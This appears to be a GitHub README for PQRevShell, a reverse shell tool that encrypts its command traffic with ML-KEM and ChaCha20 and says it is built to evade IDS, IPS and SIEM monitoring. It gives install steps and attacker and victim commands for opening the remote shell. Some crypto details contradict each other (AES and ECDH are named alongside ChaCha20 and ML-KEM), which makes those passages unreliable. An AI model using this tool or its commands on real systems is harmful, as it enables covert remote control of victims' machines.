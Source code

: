 All credits to OusCyb3rH4ck. 

# PQRevShell
PQRevShell is a **secure reverse shell tool** that utilizes **ML-KEM (aka Kyber)** for secure key exchange and **Chacha20 encryption** to ensure encrypted communication between a client and a server. This project demonstrates a robust and secure way to establish a command execution environment, where commands issued by the server are securely transmitted to the client and executed, with responses being sent back in an encrypted format.

By leveraging **ML-KEM + HKDF** for key exchange and **Chacha20 encryption**, this tool is designed to bypass traditional security systems such as **Intrusion Detection Systems (IDS), Intrusion Prevention Systems (IPS), and Security Information and Event Management (SIEM)** systems, making it a powerful tool for penetration testing in environments with strict monitoring.

### **Key Features:**
- **ML-KEM Key Exchange:** Post-Quantum Secure key exchange using ML-KEM to prevent Man-in-the-Middle (MITM) attacks.
- **HKDF Key Derivation:** Derives a secure AES key and IV using HMAC-based Key Derivation Function (HKDF).
- **Chacha20:** Encrypts all communication between the client and server.
- **Client-Server Architecture:** Reverse shell functionality with encrypted command execution.
- **Resistance to MITM:** ECDH ensures that even if an attacker intercepts the communication, they cannot decrypt the data.
- **Bypass of IDS/IPS/SIEM:** AES encryption hides the command and control traffic, making it difficult to detect by network monitoring systems.

### **How It Works:**
1. **Key Exchange:**
   - The server and client generate their own ML-KEM key pairs (private and public keys).
   - They exchange their public keys and compute a shared secret.
   - The shared secret is used to derive a secure Chacha20 key and IV using HKDF.

2. **Encrypted Communication:**
   - All commands and responses are encrypted with Chacha20.
   - The server sends encrypted commands to the client, which decrypts and executes them.
   - The client sends the encrypted output back to the server.

3. **Secure Execution:**
   - The client executes commands in a secure environment and returns the encrypted output to the server.

## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/JuanPardos/PQRevShell
   cd PQRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## **Usage**

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p PORT
```

### **Security Features**
- **ML-KEM Key Exchange:** Prevents MITM attacks by securely exchanging keys.
- **HKDF Key Derivation:** Ensures unique and secure keys for each session.
- **Chacha20 Encryption:** Encrypts all communication to protect against eavesdropping.
- **No Manual Key Sharing:** Keys are exchanged securely without manual intervention.

### **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

### **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

### **Author**
- [OusCyb3rH4ck](https://github.com/OusCyb3rH4ck)
